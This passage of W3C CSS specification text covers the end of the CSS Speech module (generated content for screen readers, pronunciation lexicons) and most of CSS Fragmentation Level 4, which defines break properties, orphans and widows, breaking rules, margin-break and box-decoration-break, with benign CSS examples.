> **Note:** It is common for user agents such as screen readers to announce the nesting depth of list items, or more generally, to indicate additional structural information pertaining to complex hierarchical content. The verbosity of these additional audio cues and/or speech output can usually be controlled by users, and contribute to increasing usability. These navigation aids are implementation-dependent, but it is recommended that user agents supporting the CSS Speech module ensure that these additional audio cues and speech output don’t generate redundancies or create inconsistencies (for example: duplicated or different list item numbering scheme).

### 14.  Inserted and replaced content {#css-speech-1:content}

*This section is non-normative.*

Sometimes, authors will want to specify a mapping from the source text into another string prior to the application of the regular pronunciation rules. This may be used for uncommon abbreviations or acronyms which are unlikely to be recognized by the synthesizer. The `content` property can be used to replace one string by another. The functionality provided by this property is similar to the [`alias` attribute of the `sub` element](https://www.w3.org/TR/speech-synthesis11/#edef_sub) from the SSML markup language [SSML].

> **Example:** In this example, the abbreviation is rendered using the content of the title attribute instead of the element’s content.
>
> ```
> /* This replaces the content of the selected element
> by the string "World Wide Web Consortium". */
> abbr { content: attr(title); }
> ...
>
> <abbr title="World Wide Web Consortium">W3C</abbr>
> ```

In a similar way, text strings in a document can be replaced by a previously recorded version.

> **Example:** In this example—​assuming the format is supported, the file is available, and the UA is configured to do so—​a recording of Sir John Gielgud’s declamation of the famous monologue is played. Otherwise the UA falls back to render the text using synthesized speech.
>
> ```
> .hamlet { content: url(./audio/gielgud.wav); }
> ...
>
> <div class="hamlet">
> To be, or not to be: that is the question:
> </div>
> ```

Furthermore, authors (or users via a user stylesheet) may add some information to ease the understanding of structures during non-visual interaction with the document. They can do so by using the `::before` and `::after` pseudo-elements. Note that different stylesheets can be used to define the level of verbosity for additional information spoken by screen readers.

> **Example:** This example inserts the string "Start list: " before a list and the string "List item: " before the content of each list item. Likewise, the string "List end: " gets inserted after the list to inform the user that the list speech output is over.
>
> ```
> ul::before { content: "Start list: "; }
> ul::after  { content: "List end. "; }
> li::before { content: "List item: "; }
> ```

Detailed information can be found in the CSS3 Generated and Replaced Content module [CSS3GENCON].

### 15.  Pronunciation, phonemes {#css-speech-1:pronunciation}

*This section is non-normative.*

CSS does not specify how to define the pronunciation (expressed using a well-defined phonetic alphabet) of a particular piece of text within the markup document. A "phonemes" property was described in earlier drafts of this specification, but objections were raised due to breaking the principle of separation between content and presentation. (The "phonemes" authored within aural CSS stylesheets would have needed to be updated each time text changed within the markup document.) The "phonemes" functionality is therefore considered out-of-scope in CSS (the presentation layer) and should be addressed in the markup / content layer.

The ["pronunciation"](http://microformats.org/wiki/rel-pronunciation) `rel` value allows importing pronunciation lexicons in HTML documents using the `link` element (similar to how CSS stylesheets can be included). The W3C PLS (Pronunciation Lexicon Specification) [PRONUNCIATION-LEXICON] is one format that can be used to describe such a lexicon.

Additionally, an attribute-based mechanism can be used within the markup to author text-pronunciation associations At the time of writing, such mechanism isn’t formally defined in the W3C HTML standard(s). However, the [EPUB 3.0 specification](http://idpf.org/epub/30) allows (x)HTML5 documents to contain attributes derived from the [SSML] specification, that describe how to pronounce text based on a particular phonetic alphabet.

#### Glossary {#css-speech-1:glossary}

The following terms and abbreviations are used in this module.

****UA**  **user agent****

: A program that reads and/or writes CSS style sheets on behalf of a user in either or both of these categories: programs whose purpose is to render documents (e.g., browsers) and programs whose purpose is to create style sheets (e.g., editors). A UA may fall into both categories. (There are other programs that read or write style sheets, but this module gives no rules for them.)

****document****

: A tree-structured document with elements and attributes, such as an SGML or XML document [XML11].

****style sheet****

: A [CSS style sheet](#css2:style-sheet)

---

## CSS Fragmentation Module Level 4 {#css-break-4}

- **Shortname:** `css-break-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-break-4/](https://drafts.csswg.org/css-break-4/)
- **Published TR:** [https://www.w3.org/TR/css-break-4/](https://www.w3.org/TR/css-break-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-04-14

### 1.  Introduction {#css-break-4:intro}

*This section is not normative.*

In paged media (e.g., paper, transparencies, photo album pages, pages displayed on computer screens as printed output simulations), as opposed to continuous media, the content of the document is split into one or more discrete display surfaces. In order to avoid awkward breaks (such as halfway through a line of text), the layout engine must be able to shift around content that would fall across the page break. This process is called **pagination**.

In CSS, in addition to paged media, certain layout features such as [regions](#css-regions-1) [CSS3-REGIONS] and [multi-column layout](#css-multicol-2) [CSS-MULTICOL-1] create a similarly fragmented environment. The generic term for breaking content across containers is fragmentation. This module explains how content breaks across fragmentation containers (fragmentainers) such as pages and columns and how such breaks can be [controlled by the author](#css-break-4:breaking-controls).

This specification is identical to [CSS Fragmentation Level 3](#css-break-4) except for the addition of the `margin-break` property and the `always` and `all` values of the `break-before` and `break-after` properties.

#### 1.1.  Module Interactions {#css-break-4:placement}

This module replaces and extends the pagination controls defined in [CSS2] [section 13.3](#css2:page-breaks) and in [CSS-PAGE-3].

#### 1.2.  Value Definitions {#css-break-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Fragmentation Model and Terminology {#css-break-4:fragmentation-model}

****fragmentation container** (**fragmentainer**)**

: A box—​such as a page box, column box, or region—​that contains a portion (or all) of a fragmented flow. Fragmentainers can be pre-defined, or generated as needed. When breakable content would overflow a fragmentainer in the block dimension, it breaks into the next container in its fragmentation context instead.

****fragmentation context****

: An ordered series of fragmentainers, such as created by a [multi-column container](#css-multicol-2), a chain of [CSS regions](#css-regions-1), or a paged media display. A given fragmentation context can only have one block flow direction across all its fragmentainers. (Descendants of the fragmentation root may have other block flow directions, but fragmentation proceeds according to the block flow direction applied to the fragmentation root.)

****fragmented flow****

: Content that is being laid out in a fragmentation context. The fragmented flow consists of the content of a (possibly anonymous) box called the **fragmentation root**.

****fragmentation direction****

: The block flow direction of the fragmentation context, i.e. the direction in which content is fragmented. (In this level of CSS, content only fragments in one dimension.)

****fragmentation****

: The process of splitting a content flow across the fragmentainers that form a fragmentation context.

****box fragment** or **fragment****

: The portion of a box that belongs to exactly one fragmentainer. A box in continuous flow always consists of only one fragment. A box in a fragmented flow consists of one or more fragments. Each fragment has its own share of the box’s border, padding, and margin, and therefore has its own padding area, border area, and margin area. (See `box-decoration-break`, which controls how these are affected by fragmentation.)

****remaining fragmentainer extent****

: The remaining block-axis space in the fragmentainer available to a given element, i.e. between the end of preceding content in fragmentainer and the edge of the fragmentainer.

Each **fragmentation break** (hereafter, **break**) ends layout of the fragmented box in the current fragmentainer and causes the remaining content to be laid out in the next fragmentainer, in some cases causing a new fragmentainer to be generated to hold the deferred content.

> **Note:** Breaking inline content into lines is another form of fragmentation, and similarly creates box fragments when it breaks [inline boxes](#css2:inline-boxes) across [line boxes](#css2:line-box). However, inline breaking is not covered here; see [CSS2]/[CSS-TEXT-3].

> **Note:** A box can be broken into multiple fragments also due to bidi reordering of text (see [Applying the Bidirectional Reordering Algorithm](#css-writing-modes-4:bidi-algo) in [CSS Writing Modes](#css-writing-modes-4:text-direction)) or higher-level display type box splitting, e.g. [block-in-inline splitting](#css2:img-anon-block) (see [CSS2§9.2](#css2:box-gen)) or [column-spanner-in-block](#css-multicol-2:spanning-columns) splitting (see [CSS Multi-column Layout](#css-multicol-2:spanning-columns)). The division into box fragments in these cases does not depend on layout (sizing/positioning of content).

#### 2.1.  Parallel Fragmentation Flows {#css-break-4:parallel-flows}

When multiple formatting contexts are laid out parallel to each other, fragmentation is performed independently in each formatting context. For example, if an element is floated, then a forced break inside the float will not affect the content outside the float (except insofar as it may increase the height of the float). UAs *may* (but are not required to) adjust the placement of unforced breaks in parallel formatting contexts to visually balance such side-by-side content, but *must not* do so to match a forced break.

The following are examples of parallel flows whose contents will fragment independently:

- The contents of a float vs. the content wrapping outside the float.
- The contents of a float vs. the contents of an adjacent float.
- The contents of each table cell in a single table row.
- The contents of each grid item in a single grid row.
- The contents of each flex item in a flex layout row.
- The contents of absolutely-positioned elements that cover the same range of their containing block’s fragmentation context.

Content overflowing the content edge of a fixed-size box is considered parallel to the content after the fixed-size box and follows the normal fragmentation rules. Although overflowing content doesn’t affect the size of the fragmentation root box, it does increase the length of the fragmented flow, spilling into or generating additional fragmentainers as necessary.

#### 2.2.  Nested Fragmentation Flows {#css-break-4:nested-flows}

Breaking a fragmentainer *F* effectively splits the fragmentainer into two fragmentainers (*F1* and *F2*). The only difference is that, with regards to the content of fragmentainer *F*, the type of break between the two pieces *F1* and *F2* is the [type of break](#css-break-4:break-types) created by the fragmentation context that split *F*, not the type of break normally created by *F*’s own fragmentation context.

> **Example:** For example, if a region box is broken at a page boundary, then the content of the region will be affected by a page break at that point (but not by a region break).

> **Note:** that when a multi-column container breaks across pages, it generates a new row of columns on the next page for the rest of its content, so that a page break within a multi-column container is always both a page break and a column break.

### 3.  Controlling Breaks {#css-break-4:breaking-controls}

The following sections explain how breaks are controlled in a fragmented flow. A page/column/region break opportunity between two boxes is under the influence of the containing block’s `break-inside` property, the `break-after` property of the preceding element, and the `break-before` property of the following element. A page/column/region break opportunity between line boxes is under the influence of the containing block’s `break-inside`, `widows`, and `orphans` properties. A fragmentation break can be allowed, forced, or discouraged depending on the values of these properties. A forced break overrides any break restrictions acting at that break point. In the case of forced page breaks, the author can also specify on which page ([left or right](#css-page-3:left-right-first)) the subsequent content should resume.

See the section on [rules for breaking](#css-break-4:breaking-rules) for the exact rules on how these properties affect fragmentation.

#### 3.1.  Breaks Between Boxes: the `break-before` and `break-after` properties {#css-break-4:break-between}

| Field | Value |
| --- | --- |
| Name: | **break-before**, **break-after** |
| [Value:](#css-values-4:value-defs) | auto \| avoid \| always \| all \| avoid-page \| page \| left \| right \| recto \| verso \| avoid-column \| column \| avoid-region \| region |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes, grid items, flex items, table row groups, table rows (but see prose) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

These properties specify page/column/region break behavior before/after the generated box. The **forced break values** `always`, `all`, `left`, `right`, `recto`, `verso`, `page`, `column` and `region` create a [forced break](#css-break-4:forced-breaks) in the flow while the **avoid break values** `avoid`, `avoid-page`, `avoid-column` and `avoid-region` indicate that content should be kept together.

Values for `break-before` and `break-after` are defined in the sub-sections below. User agents must apply these properties to boxes in the normal flow of the fragmentation root. User agents should also apply these properties to floated boxes whose containing block is in the normal flow of the root fragmented element. User agents may also apply these properties to other boxes. User agents must not apply these properties to absolutely-positioned boxes.

##### Generic Break Values {#css-break-4:generic-break-values}

These values have an effect regardless of the type of fragmented context containing the flow.

****auto****

: Neither force nor forbid a break before/after the [principal box](#css2:block-boxes).

****avoid****

: Avoid a break before/after the [principal box](#css2:block-boxes).

****always****

: Always force a break before/after the principal box. The type of this break is that of the immediately-containing fragmentation context. For example, in a multi-column container forces a column break; in paged media not inside a multi-column container, forces a page break.

****all****

: Always force a break before/after the principal box. This value breaks through all containing fragmentation contexts. For example, inside a multi-column container in a region in a multi-column container in paged media, it forces simultaneously a column break in the inner multi-column container, a region break, a column break in the outer multi-column container, and a page break.

  > **Issue:** It’s unclear if this value is needed.

##### Page Break Values {#css-break-4:page-break-values}

These values only have an effect in paginated contexts; if the flow is not paginated, they have no effect.

****avoid-page****

: Avoid a page break before/after the [principal box](#css2:block-boxes).

****page****

: Always force a page break before/after the [principal box](#css2:block-boxes).

****left****

: Force one or two page breaks before/after the [principal box](#css2:block-boxes) so that the next page is formatted as a left page.

****right****

: Force one or two page breaks before/after the [principal box](#css2:block-boxes) so that the next page is formatted as a right page.

****recto****

: Force one or two page breaks before/after the [principal box](#css2:block-boxes) so that the next page is formatted as either a left page or a right page, whichever is second (according to the page progression) in a page spread.

****verso****

: Force one or two page breaks before/after the [principal box](#css2:block-boxes) so that the next page is formatted as either a left page or a right page, whichever is first (according to the page progression) in a page spread.

##### Column Break Values {#css-break-4:column-break-values}

These values only have an effect in multi-column contexts; if the flow is not within a multi-column context, they have no effect.

****avoid-column****

: Avoid a column break before/after the [principal box](#css2:block-boxes).

****column****

: Always force a column break before/after the [principal box](#css2:block-boxes).

##### Region Break Values {#css-break-4:region-break-values}

These values only have an effect in multi-region contexts; if the flow is not linked across multiple regions, these values have no effect.

****avoid-region****

: Avoid a region break before/after the [principal box](#css2:block-boxes).

****region****

: Always force a region break before/after the [principal box](#css2:block-boxes).

##### 3.1.1.  Child→Parent Break Propagation {#css-break-4:break-propagation}

Since breaks are only allowed between siblings, not between a box and its container (see [Possible Break Points](#css-break-4:possible-breaks)), break values applied to children at the start/end of a parent are **propagated** to the parent, where they can take effect.

Specifically—​except in layout modes which define more specific rules to account for reordering and parallel layout (e.g. in [flex layout](#css-flexbox-2:pagination) [CSS-FLEXBOX-1] or [grid layout](#css-grid-2:pagination) [CSS-GRID-1])—​a `break-before` value on a first in-flow child box is propagated to its container. Likewise a `break-after` value on a last in-flow child box is propagated to its container. (Conflicting values [combine](#css-break-4:forced-breaks) as defined below.) This propagation stops before it breaks through the nearest matching fragmentation context.

Break propagation does not affect computed values; it is part of interpreting the elements’ computed values for layout.

#### 3.2.  Breaks Within Boxes: the `break-inside` property {#css-break-4:break-within}

| Field | Value |
| --- | --- |
| Name: | **break-inside** |
| [Value:](#css-values-4:value-defs) | auto \| avoid \| avoid-page \| avoid-column \| avoid-region |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements except inline-level boxes, internal ruby boxes, table column boxes, table column group boxes, absolutely-positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies page/column/region break behavior within the element’s principal box. Values have the following meanings:

****auto****

: Impose no additional breaking constraints within the box.

****avoid****

: Avoid breaks within the box.

****avoid-page****

: Avoid a page break within the box.

****avoid-column****

: Avoid a column break within the box.

****avoid-region****

: Avoid a region break within the box.

#### 3.3.  Breaks Between Lines: `orphans`, `widows` {#css-break-4:widows-orphans}

| Field | Value |
| --- | --- |
| Name: | **orphans**, **widows** |
| [Value:](#css-values-4:value-defs) | `<integer [1,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 2 |
| [Applies to:](#css-cascade-5:applies-to) | block containers that establish an inline formatting context |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `orphans` property specifies the minimum number of line boxes in a block container that must be left in a fragment *before* a fragmentation break. The `widows` property specifies the minimum number of line boxes of a block container that must be left in a fragment *after* a break. Examples of how they are used to control fragmentation breaks are given [below](#css-break-4:widows-orphans-example).

Only positive integers are allowed as values of `orphans` and `widows`. Negative values and zero are invalid and must cause the declaration to be [ignored](#css2:ignore).

If a block contains fewer lines than the value of `widows` or `orphans`, the rule simply becomes that all lines in the block must be kept together.

#### 3.4.  Page Break Aliases: the `page-break-before`, `page-break-after`, and `page-break-inside` properties {#css-break-4:page-break-properties}

For compatibility with [CSS Level 2](#css2), UAs that conform to [CSS2] must alias the `page-break-before`, `page-break-after`, and `page-break-inside` properties to `break-before`, `break-after`, and `break-inside` by treating the `page-break-*` properties as legacy shorthands for the `break-*` properties with the following value mappings:

| Shorthand (`page-break-*`) Values | Longhand (`break-*`) Values |
| --- | --- |
| `auto \| left \| right \| avoid` | `auto \| left \| right \| avoid` |
| `always` | `page` |

### 4.  Rules for Breaking {#css-break-4:breaking-rules}

A fragmented flow may be broken across fragmentainers at a number of [possible break points](#css-break-4:possible-breaks). In the case of [forced breaks](#css-break-4:forced-breaks), the UA is required to break the flow at that point. In the case of [unforced breaks](#css-break-4:unforced-breaks), the UA has to choose among the possible breaks that are allowed.

To guarantee progress, fragmentainers are assumed to have a minimum block size of 1px regardless of their used size.

#### 4.1.  Possible Break Points {#css-break-4:possible-breaks}

Fragmentation splits boxes in the block flow dimension. In block-and-inline flow, breaks may occur at the following places:

**Class A**

: Between sibling boxes of the following types:

  **Block-parallel Fragmentation**

  : When the block flow direction of the siblings' containing block is parallel to that of the fragmentation context: [in-flow](#css2:positioning-scheme) block-level boxes, a float and an immediately-adjacent in-flow or floated box, table row group boxes, table row boxes, multi-column column row boxes.

  **Block-perpendicular Fragmentation**

  : When the block flow direction of the siblings' containing block is perpendicular to that of the fragmentation context: table column group boxes, table column boxes, multi-column column boxes.

**Class B**

: Between line boxes inside a block container box.

**Class C**

: Between the content edge of a block container box and the outer edges of its child content (margin edges of block-level children or line box edges for inline-level children) *if* there is a (non-zero) gap between them.

> **Note:** There is no inherent prioritization among these classes of break points. However, individual break points may be prioritized or de-prioritized by using the [breaking controls](#css-break-4:breaking-controls).

> **Note:** Other layout models may add breakpoints to the above classes. For example, [CSS-FLEXBOX-1] adds certain points within a flex formatting context to classes A and C.

Some content is not fragmentable, for example many types of [replaced elements](#css2:replaced-element) [CSS2] (such as images or video), scrollable elements, or a single line of text content. Such content is considered **monolithic**: it contains no possible break points. Any forced breaks within such boxes therefore cannot split the box, and must therefore also be ignored by the box’s own fragmentation context.

In addition to any content which is not generally fragmentable, UAs may consider as monolithic any elements with `overflow` set to `auto` or `scroll` and any elements with `overflow: hidden` and a non-`auto` logical height (and no specified maximum logical height).

Since line boxes contain no possible break points, `inline-block` and `inline-table` boxes (and other inline-level display types that establish an independent formatting context) may also be considered monolithic: that is, in the cases where a single line box is too large to fit within its fragmentainer even by itself and the UA chooses to split the line box, it may fragment such boxes or it may treat them as monolithic.

#### 4.2.  Types of Breaks {#css-break-4:break-types}

There are different types of breaks in CSS, defined based on the type of fragmentainers they span:

****page break****

: A break between two [page boxes](#css-page-3:page-box). [CSS-PAGE-3]

****spread break****

: A break between two page boxes that are not associated with [facing pages](#css-page-3:facing-pages). A spread break is always also a page break. [CSS-PAGE-3]

****column break****

: A break between two [column boxes](#css-multicol-2:column-box). Note that if the column boxes are on different pages, then the break is also a page break. Similarly, if the column boxes are in different regions, then the break is also a region break. [CSS-MULTICOL-1]

****region break****

: A break between two [regions](#css-regions-1:regions). Note that if the region boxes are on different pages, then the break is also a page break. [CSS3-REGIONS]

> **Note:** A fifth type of break is the line break, which is a break between two [line boxes](#css2:line-box). These are not covered in this specification; see [CSS2] [CSS-TEXT-3].

#### 4.3.  Forced Breaks {#css-break-4:forced-breaks}

A **forced break** is one explicitly indicated by the style sheet author. A forced break occurs at a [class A break point](#css-break-4:btw-blocks) if, among the `break-after` properties specified on or propagated to the earlier sibling box and the `break-before` properties specified on or propagated to the later sibling box there is at least one with a forced break value. (Thus a forced break value effectively overrides any avoid break value that also applies at that break point.)

When multiple forced break values apply to a single break point, they combine such that all types of break are honored. When `left`, `right`, `recto`, and/or `verso` are combined, the value specified on the latest element in the flow wins.

> **Note:** A forced page break must also occur at a [class A break point](#css-break-4:btw-blocks) if the last line box above this margin and the first one below it do not have the same value for `page`. See [CSS-PAGE-3].

When a forced break occurs, it forces ensuing content into the next fragmentainer of the type associated with the break, breaking through as many fragmentation contexts as necessary until the specified break types are all satisfied. If the forced break is not contained within a matching type of fragmentation context, then the forced break has no effect.

#### 4.4.  Unforced Breaks {#css-break-4:unforced-breaks}

While [breaking controls](#css-break-4:breaking-controls) can force breaks, they can also discourage them. An **unforced break** is one that is inserted automatically by the UA in order to prevent content from overflowing the fragmentainer. The following rules control whether unforced breaking at a [possible break point](#css-break-4:possible-breaks) is allowed:

**Rule 1**

: A fragmented flow may break at a [class A break point](#css-break-4:btw-blocks) only if all the `break-after` and `break-before` values applicable to this break point allow it, which is when at least one of them forces a break or when none of them forbid it (`avoid` or `avoid-page`/`avoid-column`/`avoid-region`, depending on the [break type](#css-break-4:break-types)).

**Rule 2**

: However, if all of them are `auto` and a common ancestor of all the elements has a `break-inside` value of `avoid`, then breaking here is not allowed.

**Rule 3**

: Breaking at a [class B break point](#css-break-4:btw-lines) is allowed only if the number of line boxes between the break and the start of the enclosing block box is the value of `orphans` or more, and the number of line boxes between the break and the end of the box is the value of `widows` or more.

**Rule 4**

: Additionally, breaking at [class B](#css-break-4:btw-blocks) or [class C](#css-break-4:end-block) break points is allowed only if the `break-inside` property of all ancestors is `auto`.

If the above doesn’t provide enough break points to keep content from overflowing the fragmentainer, then rule 3 is dropped to provide more break points.

If that still does not lead to sufficient break points, then rules 1, 2 and 4 are dropped in order to find additional breakpoints. In this case the UA may use the `avoid`s that are in effect at those points to weigh the appropriateness of the new breakpoints; however, this specification does not suggest a precise algorithm.

If even that does not lead to sufficient break points, cloned margins/border/padding at on the block-end side are truncated; and if more room is still needed, cloned margins/border/padding are truncated at the block-start side as well.

Finally, if there are no possible break points below the top of the fragmentainer, and not all the content fits, the UA may break anywhere in order to avoid losing content off the edge of the fragmentainer.  In such cases, the UA may also fragment the contents of monolithic elements by slicing the element’s graphical representation. However, the UA must not break at the top of the page, i.e. it must place at least some content on each fragmentainer, so that each fragmentainer has a non-zero amount of content, in order to guarantee progress through the content.

#### 4.5.  Optimizing Unforced Breaks {#css-break-4:best-breaks}

While CSS requires that a fragmented flow must break at allowed break points in order to avoid overflowing the fragmentainers in its fragmentation context, it does not define whether content breaks at a particular [allowed break](#css-break-4:unforced-breaks). However, it is recommended that user agents observe the following guidelines (while recognizing that they are sometimes contradictory):

- Break as few times as possible.
- Make all fragmentainers that don’t end with a forced break appear to be equally filled with content.
- Avoid breaking inside a replaced element.

> **Example:** Suppose, for example, that the style sheet contains `orphans : 4`, `widows : 2`, and there is space for 20 lines (line boxes) available at the bottom of the current page, and the next block in normal flow is considered for placement:
>
> - If the block contains 20 line boxes or fewer, it should be placed on the current page.
> - If the block contains 21 or 22 line boxes, the second fragment of the paragraph must not violate the `widows` constraint, and so the second fragment must contain at least two line boxes; likewise the first fragment must contain at least four line boxes.
> - If the block contains 23 line boxes or more, the first fragment should contain 20 lines and the second fragment the remaining lines. But if any fragment of the block is placed on the current page, that fragment must contain at least four line boxes and the second fragment at least two line boxes.
>
> Now suppose that `orphans` is `10`, `widows` is `20`, and there are 8 lines available at the bottom of the current page:
>
> - If the block contains 8 lines or fewer, it should be placed on the current page.
> - If the block contains 9 lines or more, it must NOT be split (that would violate the `orphans` constraint), so it must move as a block to the next page.

Additionally, CSS imposes one requirement: a zero-sized box fragment, since it does not take up space, must appear on the earlier side of a fragmentation break if it is able to fit within the fragmentainer.

> **Note:** A zero-sized box fragment will be pushed to the next fragmentainer if it is placed immediately after content that itself overflows the fragmentainer.

### 5.  Box Model for Breaking {#css-break-4:breaking-boxes}

> **Note:** The sizing terminology used in this section is defined in [CSS-SIZING-3].

#### 5.1.  Breaking into Varying-size Fragmentainers {#css-break-4:varying-size-boxes}

When a flow is fragmented into varying-size fragmentainers, the following rules are observed for adapting layout:

- Layout is performed per-fragmentainer, with each fragmentainer continuing progress from the breakpoint on the previous, but recalculating sizes and positions using its own size as if the entire element were fragmented across fragmentainers of this size. Progress is measured in percentages (not absolute lengths) of used/remaining fragmentainer size and in amount of used/remaining content. However, when laying out monolithic elements, the UA may instead maintain a consistent inline size and resolved block size across fragmentainers.
- Intrinsic sizes are calculated and maintained across the entire element. Where an initial containing block size is needed to resolve an intrinsic size, assume the size of the first fragmentainer defining a fragmentation context.
- Fragments of boxes that began on a previous fragmentainer must obey placement rules with the additional constraint that fragments must not be positioned above the block-start edge of the fragmentainer. If this results in a box’s continuation fragment shifting away from the block-start edge of the fragmentainer, then `box-decoration-break: clone`, if specified, wraps the fragment with the box’s margin in addition to its padding and border.

  

  Illustration of breaking in varying-size fragmentainers.

> **Note:** Since document order of elements doesn’t change during fragmentation, fragments are processed following the same rules that apply to continuous media. In particular, the order of floats is preserved across all fragments and follows the same rules as defined in CSS 2.1 9.5.

Below are listed (informatively) some implications of these rules:

- Boxes (including tables) fulfilling layout constraints at their stretch-fit or percentage-based size may change inline size across pages.
- Boxes (including tables) fulfilling layout constraints at their min-content, max-content, or absolute-length size will maintain their inline size across pages.
- A block-level continuation fragment may be placed below the top of the page if, e.g. it establishes a block formatting context and is placed beside a float and both it and the float continue onto a narrower page that is too narrow to hold both of them side-by-side.
- An element adjacent to a preceding float on one page may wind up above the float’s continuation on the next page if, e.g. that float is pushed down because it no longer fits side-by-side with an earlier float that also continues onto this narrower page.
- A left float may appear on a page *before* the remaining fragments of a preceding right float if that right float does not fit on the earlier page. However another right float will be forced down until the preceding right float’s remaining fragment can be placed.

> **Example:** Here is an example that shows the use of percentage-based progress: Suppose we have an absolutely-positioned element that is positioned `top: calc(150% + 30px)` and has `height: calc(100% - 10px)`. If it is placed into a paginated context with a first page height of 400px, a second page of 200px, and a third page of 600px, its layout progresses as follows:
>
> - First, the top position is resolved against the height of the first page. This results in 630px. Since the first page has a height of only 400px, layout moves to the second page, recording progress of 400/630 = 63.49% with 36.51% left to go.
> - Now on the second page, the top position is again resolved, this time against the height of the second page. This results in 330px. The remaining 36.51% of progress thus resolves to 120.5px, placing the top edge of the element 120.5px down the second page.
> - Now the height is resolved against the second page; it resolves to 190px. Since there are only 79.5px left on the page, layout moves to the third page, recording progress of 79.5/190 = 41.84%, with 58.16% left to go.
> - On the third page, the height resolves to 590px. The remaining 58.16% of progress thus resolves to 343.1px, which fits on this page and completes the element.

#### 5.2.  Adjoining Margins at Breaks: the `margin-break` property {#css-break-4:break-margins}

| Field | Value |
| --- | --- |
| Name: | **margin-break** |
| [Value:](#css-values-4:value-defs) | auto \| keep \| discard |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Controls whether the box’s block-axis margins are discarded or kept at a fragmentation break. Values have the following meanings:

****auto****

: When an *unforced* break occurs before or after the box, any margins adjoining the break truncate to the remaining fragmentainer extent before the break, and are truncated to zero after the break. When a *forced break* occurs there, adjoining margins before the break are truncated, but margins after the break are preserved. [Cloned margins](#css-break-4:valdef-box-decoration-break-clone) are always truncated to zero.

  > **Note:** When margins collapse (see [CSS2§8.3.1](#css2:collapsing-margins)), the margins of multiple boxes can be adjoining the break.

****keep****

: Margins adjoining a fragmentation break are not truncated.

****discard****

: Margins adjoining a fragmentation break are always truncated, including at the start and end of a fragmentation context.

> **Note:** See also the `margin-trim` property, which applies to the fragmentation container (page/column/etc.)

> **Issue:** [Antenna House also allows a second `keep` keyword](https://www.antennahouse.com/product/ahf66/ahf-focss6.html), which preserves the margin after the break; it is otherwise discarded. Do we want to include this feature? Also, if only one `keep` is specified, does it apply only to the before margin or both sides? See [discussion](https://github.com/w3c/csswg-drafts/issues/3254).

> **Example:** Consider the following multi-column layout example:
>
> ```
> <style>
>   article { columns: 16ch; border: solid silver; }
>   h3 { break-before: always; }
> </style>
> <article>
>   Here we can compare the effects of <code>margin-break</code>,
>   before and after forced and unforced breaks.
>   This paragraph starts after an unforced break.
>   <h3>This heading is given a forced break before.</h3>
> </article>
> ```
>
> Here are illustrations of how it might render with each `margin-break` value:
>
> 
>
> `margin-break: auto` (initial value)
>
> 
>
> `margin-break: discard`
>
> 
>
> `margin-break: keep discard`
>
> 
>
> `margin-break: keep keep`

> **Example:** In this example, `margin` is used to create spacing between styled inline `CODE` elements and adjacent text in a paragraph; `margin-break` is used to discard this margin at the start and end of the line.
>
> ```
> CODE {
>   background: silver;
>   padding: 0.1em;
>   border: 1px solid;
>   border-radius: 0.2em;
>   margin: 0.2em;
>   margin-break: discard;
> }
> ```

#### 5.3.  Splitting Boxes {#css-break-4:box-splitting}

When a box breaks, its content box extends to fill any remaining fragmentainer extent (leaving room for any margins/borders/padding applied by `box-decoration-break: clone`) before the content resumes on the next fragmentainer. (A fragmentation break that pushes content to the next fragmentainer effectively increases the block size of a box’s contents.)

> **Note:** The extra block size contributed by fragmenting the box (i.e. the distance from the break point to the edge of the fragmentainer) contributes progress towards any specified limits on the box’s block size.


Illustration of filling the remaining fragmentainer extent.

However, if the fragmented box is a grid item or table cell that spans multiple rows, and the fragmentation break splits its container between two of those rows, then the box should not extend into (or beyond) the gap between those rows.

#### 5.4.  Fragmented Borders and Backgrounds: the `box-decoration-break` property {#css-break-4:break-decoration}

| Field | Value |
| --- | --- |
| Name: | **box-decoration-break** |
| [Value:](#css-values-4:value-defs) | slice \| clone |
| [Initial:](#css-cascade-6:initial-values) | slice |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When a break (page/column/region/line) splits a box, the `box-decoration-break` property controls

- whether the box’s margins, borders, padding, and other decorations wrap the broken edges of the box fragments
